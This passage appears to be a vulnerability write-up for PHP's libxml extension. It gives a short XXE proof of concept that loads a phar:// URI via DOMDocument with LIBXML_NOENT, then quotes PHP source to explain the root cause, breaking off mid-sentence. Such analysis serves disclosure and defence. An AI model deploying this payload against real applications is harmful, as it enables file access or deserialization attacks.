 ```php
$xml = '<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "phar://test.phar">]><root>&xxe;</root>';

$dom = new DOMDocument();
$dom->loadXML($xml,LIBXML_NOENT);
```

### POC

![image](https://hackmd.io/_uploads/Sk4rkFudee.png)

### Root cause

In PHP’s libxml extension, during request initialization (PHP_RINIT_FUNCTION(libxml)), the XML parser is configured to use php_libxml_input_buffer_create_filename for handling file accesses:

```c
static PHP_RINIT_FUNCTION(libxml)
{
	if (_php_libxml_per_request_initialization) {
		/* report errors via handler rather than stderr */
		xmlSetGenericErrorFunc(NULL, php_libxml_error_handler);
		xmlParserInputBufferCreateFilenameDefault(php_libxml_input_buffer_create_filename);
		xmlOutputBufferCreateFilenameDefault(php_libxml_output_buffer_create_filename);
	}
```

When an XML document references an external resource, the parser calls:

```c
php_libxml_input_buffer_create_filename(const char *URI, xmlCharEncoding enc)
{
	xmlParserInputBufferPtr ret;
	void *context = NULL;

	if (LIBXML(entity_loader_disabled)) {
		return NULL;
	}

	if (URI == NULL)
		return(NULL);

	context = php_libxml_streams_IO_open_read_wrapper(URI);

	if (context == NULL) {
		return(NULL);
	}
    
    
    ...
```

This function opens the target URI via:
